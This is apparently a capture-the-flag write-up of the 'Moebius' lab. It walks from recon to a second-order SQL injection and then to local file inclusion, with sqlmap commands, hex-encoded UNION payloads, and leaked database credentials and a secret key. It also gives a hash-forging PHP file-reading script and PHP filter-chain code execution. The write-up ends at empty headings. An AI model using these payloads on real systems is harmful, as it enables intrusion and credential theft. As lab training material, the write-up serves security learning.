## TL;DR


### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```


we can see port `22` with ssh and port `80` with apache http server
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.9p1 (protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.62 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Image Grid
|_http-server-header: Apache/2.4.62 (Debian)
```

let's add `moebius` to our `/etc/hosts`.

### From SQL Injection to LFI

this is the root page:


Okay, I started with `ffuf`, to check for endpoints:
```bash
┌──(agonen㉿kali)-[~/…/output/moebius/dump/web]
└─$ ffuf -u 'http://moebius/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .php,.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://moebius/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .php .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

album.php               [Status: 200, Size: 841, Words: 93, Lines: 19, Duration: 131ms]
image.php               [Status: 200, Size: 233, Words: 27, Lines: 5, Duration: 136ms]
index.php               [Status: 200, Size: 898, Words: 107, Lines: 25, Duration: 122ms]
index.php               [Status: 200, Size: 898, Words: 107, Lines: 25, Duration: 147ms]
```

We can see three endpoints.



We can see that `image.php` let's us view images, only if we supply the correct hash:



That's what happens when hash is not correct:



So, we can't achieve LFI, unless we know the exact hash of file, and that's mean we also know the exact content of the file, which makes the whole LFI useless.

Anyway, I've noticed that if i gives here `http://moebius/album.php?short_tag=cute`, append to "cute" also `'`, it'll crash.



I've detect `SQLi` and dumped whole database, however, nothing interesting popped up.
I saw two databases:
```bash
sqlmap -u 'http://moebius/album.php?short_tag=cute' --batch --dbs
```


The databases `infromation_schema` which has nothing interesting, except configurations, and `web`, which i dumped here. 
```bash
sqlmap -u 'http://moebius/album.php?short_tag=cute' --batch -D web --dump
```



```bash
┌──(agonen㉿kali)-[~/…/output/moebius/dump/web]
└─$ cat albums.csv 
name,short_tag,description
Cute cats,cute,Cutest cats in the world
Favourite cats,fav,My favourite ones
Smart cats,smart,So smart...
        
┌──(agonen㉿kali)-[~/…/output/moebius/dump/web]
└─$ cat images.csv 
path
/var/www/images/cat1.jpg
/var/www/images/cat10.webp
/var/www/images/cat11.webp
/var/www/images/cat12.webp
/var/www/images/cat13.jpg
/var/www/images/cat14.webp
/var/www/images/cat15.webp
/var/www/images/cat16.webp
/var/www/images/cat2.jpg
/var/www/images/cat3.jpg
/var/www/images/cat4.jpg
/var/www/images/cat5.avif
/var/www/images/cat6.avif
/var/www/images/cat7.png
/var/www/images/cat8.webp
/var/www/images/cat9.webp
```

Okay, let's check for privileges:
```bash
sqlmap -u 'http://moebius/album.php?short_tag=cute' --batch --privileges
```

We got only USAGE privilege, which means we can't modify files, so we won't get `RCE` in this way.


I used `--statements`, to retrieve SQL statements being run on DBMS, 

```bash
sqlmap -u 'http://moebius/album.php?short_tag=cute' --batch --statements
```


So, this is the query being executed:
```sql
SELECT id from albums where short_tag = 'cute' AND ...
```

We can verify this, as you can see, it executed the following command:
```sql
SELECT id from albums where short_tag = 'smart1' union select 1337 -- -' AND ...
```



After selecting the id from table `albums`, it needs to select path from table `images`.
It shows all the images on the page, saw it fetched them from the table `images`.

This is case like this CTF [https://avishaigonen123.github.io/CTF_writeups/root-me/Web-Server/SQL-Injection-Routed.html](https://avishaigonen123.github.io/CTF_writeups/root-me/Web-Server/SQL-Injection-Routed.html).

So, it takes the output of query1, in this case the id, and then put it inside another query, like this:
```sql
SELECT path from images where {something with the result from before}
```

Let's try giving this input, by this way the id that will be selected is `4 union select null`:
```sql
' union select "4 union select null" -- -
```



we get back "SELECT statements have a different number of columns". So, let's add more `,null` until there is no error.
```sql
' union select "4 union select null,null,null" -- -
```
Now we got an empty path, let's try to put inside `/etc/passwd` (on the third one, I tested)



```sql
' union select "4 union select null,null,'/etc/passwd'" -- -
```
We got hacking attempt!



Alright, let's obfuscate this using [https://gchq.github.io/CyberChef/#recipe=To_Hex('None',0)&input=L2V0Yy9wYXNzd2Q](https://gchq.github.io/CyberChef/#recipe=To_Hex('None',0)&input=L2V0Yy9wYXNzd2Q).



```sql
' union select "4 union select null,null,0x2f6574632f706173737764" -- -
```
and we got valid path.
```bash
/image.php?hash=9fa6eacac1714e10527da6f9cf8570e46a5747d9ace37f4f9e963f990429310d&path=/etc/passwd
```


let's get `/etc/passwd`:


well done, we achieve our `LFI`.

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

I checked for `SSRF`, it didn't work



The php wrapper however is working, so we can get the source code using something like `php://filter/convert.base64-encode/resource=/var/www/html/index.php`.
So, this will be our query:
```bash
' union select "4 union select null,null,0x7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d2f7661722f7777772f68746d6c2f696e6465782e706870" -- -
```

I used hackvertor, burp suite extension that is very useful.



and this is the source code we get



and after base64 decoding:
```php
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Image Grid</title>
<link rel="stylesheet" href="/style.css"> <!-- Link to external CSS file -->

</head>
<body>
<h1>Cat pictures</h1>
<?php

include('dbconfig.php');

try {
    // Create a new PDO instance
    $conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
    
    // Set PDO error mode to exception
    $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    
    // Fetch image IDs from the database
    $sql_ids = "SELECT * FROM albums";
    $result_ids = $conn->prepare($sql_ids);
    $result_ids->execute();
 
    // Display images in a grid
    echo '<div class="grid-container">' . "\n";
    foreach ($result_ids as $row) {
        // Get the image ID
        $short_tag = $row["short_tag"];
        $name = $row["name"];
        $description= $row["description"];
        
        // Create link to image.php with image ID
        echo '<div class="album-container">
        <h2 class="album-title"><a href="/album.php?short_tag='.$short_tag.'">'. $name. '</a></h2>
        <p class="album-description">'.$description.'</p>
      </div>';
    
    }
    echo "</div>\n";
} catch(PDOException $e) {
    echo "Connection failed: " . $e->getMessage();
}

// Close the connection
$conn = null;

?>
</body>
</html>
```

Now, let's get the file `dbconfig.php`
```bash
┌──(agonen㉿kali)-[~/thm/Moebius]
└─$ curl 'http://moebius/image.php?hash=4cde56f17a2c5951e40a609cf0d464b5fa7b7f59471185eab67e196e7fd0bc66&path=php://filter/convert.base64-encode/resource=/var/www/html/dbconfig.php'
PD9waHAKLy8gRGF0YWJhc2UgY29ubmVjdGlvbiBzZXR0aW5ncwokc2VydmVybmFtZSA9ICJkYiI7CiR1c2VybmFtZSA9ICJ3ZWIiOwokcGFzc3dvcmQgPSAiVEFKbkY2WXVJb3Q4M1gzZyI7CiRkYm5hbWUgPSAid2ViIjsKCgokU0VDUkVUX0tFWT0nYW44aDZvVGxOQjlOMEhOY0pNUFlKV3lwUFIyNzg2SVE0STN3b1BBMUJxb0o3aHpJUzBxUVdpMkVLbUp2QWdPVyc7Cj8+
```

and after decoding:
```php
<?php
// Database connection settings
$servername = "db";
$username = "web";
$password = "TAJnF6YuIot83X3g";
$dbname = "web";


$SECRET_KEY='an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW';
?>
```

Since I have the secret key, I can create my own code that will give me the full `LFI`:
```php
<?php

$path =  $argv[1] ?? '';   // read from command line

if(str_ends_with($path, ".php"))
	$path = 'php://filter/convert.base64-encode/resource=' . $path;

$SECRET_KEY='an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW';
$hash = hash_hmac('sha256', $path, $SECRET_KEY);

$full_req = 'http://moebius/image.php?hash=' . hash_hmac('sha256', $path, $SECRET_KEY) . '&path=' .$path;

echo "full request is: \n" . $full_req . "\n";

$content = file_get_contents( $full_req );

if(str_ends_with($path, ".php"))
	$content = base64_decode( $content );

echo $content;
```

For example:
```bash
php fetch.php '/etc/passwd'
```



Or, get `/var/www/html/index.php`
```bash
php fetch.php '/var/www/html/index.php'
```


### From LFI to php code execution

we can use technique which is php wrapper chain, using this [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) to get RCE, php code executed.

This is quite simple, just execute something like this:
```bash
python3 php_filter_chain_generator.py --chain '<?php echo 1337; ?>'
```

and full command will be:
```bash
php fetch.php $(python3 php_filter_chain_generator.py --chain '<?php echo 1337; ?>' )
```
and we got our php code execution.


However, it isn't over...
I tried to execute os commands:
```bash
php fetch.php $(python3 php_filter_chain_generator.py --chain '<?php system("id"); ?>' )
```

and I realized this function is disabled.


I checked using `phpinfo()` which functions are disabled;
```bash
php fetch.php $(python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>' )
```

as you can see, all the cool functions are disabled :(



### bypass disabled php functions
LEARN!

[https://tryhackme.com/room/bypassdisablefunctions](https://tryhackme.com/room/bypassdisablefunctions)



### Privilege Escalation to Root


